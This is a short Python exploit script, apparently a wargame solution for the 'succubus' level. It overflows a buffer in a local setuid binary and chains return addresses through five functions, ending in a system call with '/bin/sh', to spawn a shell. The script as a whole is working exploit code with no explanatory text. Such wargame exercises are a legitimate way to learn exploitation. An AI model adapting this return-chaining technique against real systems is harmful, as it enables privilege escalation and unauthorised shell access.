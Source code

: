 ```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/zombie_assassin/succubus"

DO_addr = 0x80487ec
GYE_addr = 0x80487bc
GUL_addr = 0x804878c
YUT_addr = 0x804875c
MO_addr = 0x8048724

binsh_addr = 0xbffffa88

payload = "\x90"*44
payload = append(p32(DO_addr))		# main ret
payload = append(p32(GYE_addr))		# DO ret
payload = append(p32(GUL_addr))		# GYE ret
payload = append(p32(YUT_addr)) 	# GUL ret
payload = append(p32(MO_addr))		# YUT ret
payload = append("AAAA")			# MO ret
payload = append(p32(binsh_addr))	# system arg
payload = append("/bin/sh")

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

-----



